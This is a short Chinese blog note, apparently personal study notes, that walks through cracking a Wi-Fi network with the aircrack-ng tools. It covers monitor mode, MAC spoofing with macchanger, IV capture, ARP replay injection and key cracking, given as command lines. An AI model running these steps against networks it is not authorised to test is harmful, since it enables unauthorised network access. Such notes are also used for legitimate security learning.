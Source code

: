```yaml
---
title: WLAN
date: 2019-11-08 19:09:36
categories:
- CypherSecurity
- 2016
tags:
- CypherSecurity
- 2016
---
```


# 无线破解

[引用](http://netsecurity.51cto.com/art/201105/264844_all.htm)      感谢！
[简书](http://www.jianshu.com/p/fd16236057df)        感谢！

工具:  
**aircrack-ng全家桶: airmon-ng airodump-ng aireplay-ng aircrack-ng**  
[工具使用](https://www.path8.net/tn/archives/40)    感谢！

## 开启网卡监听模式  

> - airmon-ng start wlan0

## 改变网卡MAC  

> -macchanger -m 00:11:22:33:44:55 wlan0mon

## 扫描与抓包  

> - airodump-ng wlan0mon  
> - airodump-ng --ivs -w xxxx -c channel_num device 用于抓取特定频道的数据包以ivs文件保存  
> - aireplay-ng -3 -b AP'MAC -h Client'MAC device 用于使用ARP注入来产生大量数据包，配合airodump-ng使用  

## 解包

> - aircrack-ng xxxx.ivs  进行解包
